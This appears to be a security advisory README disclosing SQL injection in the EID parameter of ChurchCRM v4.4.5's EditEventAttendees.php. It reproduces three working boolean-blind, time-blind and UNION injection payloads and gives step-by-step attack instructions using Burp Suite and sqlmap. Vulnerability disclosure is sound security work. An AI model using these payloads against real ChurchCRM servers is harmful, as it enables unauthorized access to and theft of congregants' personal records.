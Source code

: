 # ChurchCRM-v4.4.5_Vuln1
ChurchCRM v4.4.5 has SQL Injection Vulnerabilities at EditEventAttendees.php

### Vulnerability Explanation:
ChurchCRM version 4.4.5 allows its users to add new events such as church services, Sunday school. Once an event has been created it can also be view attendees through the Church Event page, Church Event Editor. The EID parameter of the EditEventAttendees.php can be abused for injecting arbitrary SQL queries.

### Affected: 
1. https://{IP_Address}/churchcrm/ListEvents.php

2. POST /churchcrm/EditEventAttendees.php HTTP/1.1

### Payload :

Parameter: EID (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: EID=(SELECT (CASE WHEN (9661=9661) THEN 1 ELSE (SELECT 6727 UNION SELECT 7189) END))&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: EID=1 AND (SELECT 4311 FROM (SELECT(SLEEP(5)))kQmS)&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)

    Type: UNION query
    Title: MySQL UNION query (random number) - 2 columns
    Payload: EID=1 UNION ALL SELECT 3410,CONCAT(0x7176627671,0x6857594554466f6748796f4e61544c594a4c62527751794d4c4453504f4b45486b5358464541776c,0x71626a6271)#&EName=2022-07-03-Church Service&EDesc=&EDate=July 03 2022 10:30 am&Action=Attendees(0)

### Tested on: 
1. ChurchCRM v4.4.5 (https://github.com/ChurchCRM/CRM/releases/tag/4.4.5)

2. Google Chrome Version 102.0.5005.115 (Official Build) (x86_64)

3. sqlmap version 1.6.4 stable

### Steps to attack:
1. Login with username and password.
2. Select the "List Church Events" tab.
3. If you don't have any events, you may add them by clicking the "Add New Events" button.
4. Create Church Events such as church services and Sunday school.
5. When you save the event, it will appear on the Listing All Church Events page.
6. Intercept request by using Burp Suite.
7. When you click on Attendees, you will be sent to the Church Event Editor page.
8. Returning to Burp Suite, at /churchcrm/EditEventAttendees.php, right-click and select "Copy to file."
9. Send the request file to Kali Linux and use sqlmap with it.
10. SQL Injection vulnerability discovered through EID

### Author:
Grim The Ripper Team by SOSECURE Thailand
